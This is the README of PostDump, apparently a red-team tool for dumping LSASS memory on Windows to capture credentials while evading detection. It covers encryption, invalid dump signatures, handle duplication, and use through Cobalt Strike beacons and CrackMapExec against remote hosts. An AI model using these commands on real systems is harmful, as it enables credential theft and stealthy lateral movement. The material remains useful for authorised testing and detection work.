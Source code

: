 # PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

![screenshot](resources/demo.png)

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.

Works on x64 only.

## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        output filename [default: Machine_datetime.dmp]

    -d, --directory     output directory [default: current working directory]

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate invalid Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.



## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump and place CommandLine.dll file into same folder as BOFNET.cna
- import the .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`


## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`


## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)


## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too


## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
